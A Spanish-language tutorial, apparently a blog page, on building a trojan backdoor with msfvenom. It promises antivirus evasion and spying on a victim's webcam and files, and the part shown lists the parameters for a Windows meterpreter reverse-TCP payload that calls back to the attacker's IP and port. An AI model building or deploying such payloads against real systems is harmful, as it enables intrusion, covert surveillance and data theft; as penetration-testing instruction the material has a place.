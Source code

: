 > **Backdoor**: Un backdoor (puerta trasera), es una secuencia dentro del código de programación de algún archivo o programa que permite otorgar el control del dispositivo utilizado al atacante. Cuando esta puerta trasera es escondida sobre un archivo o programa aparentemente legítimo, decimos que se trata de un troyano.

Actualmente crear un backdoor es bastante sencillo, pues existen diferentes herramientas que nos facilitan la tarea. La complejidad real viene a al momento de esconderlo y evitar que la víctima se de cuenta.

Veremos cómo crear ese backdoor mediante el uso de "msfvenom", cómo evadir algunos antivirus y qué se puede hacer una vez se haya comprometido el sistema de la víctima (podremos ver su webcam en tiempo real, sus archivos...).

NOTA: Todas las pruebas se han realizado en entornos controlados.

## Creación del backdoor
Para empezar con la creación del backdoor, abriremos una consola linux y buscaremos las diferentes opciones de **msfvenom** para ver qué nos permite hacer mediante el comando `msfvenom -h`

<p align="center">
<img src="/assets/images/crear-backdoor-como-funciona/msfvenom.png" width="100%">
</p>

Como vemos, nos ofrece diferentes parámetros y opciones. A nosotros nos interesan los siguientes:
- "-p": Mediante este parámetro seleccionaremos la carga útil (el código malicioso) -> `windows/meterpreter/reverse_tcp`
- "lhost": Indicaremos nuestra IP, donde el programa establecerá conexión y así poder recibir y enviar información -> `<tu IP>`
- "lport": Indicaremos el puerto que queramos utilizar al momento de entablar la conexión -> `<el puerto que tú quieras>`
- "-f": Mediante este parámetro seleccionaremos el formato del programa malicioso -> `exe`
- "-o": Mediante este parámetro indicaremos la ruta de salida del programa creado -> `<la ruta que tú decidas>`
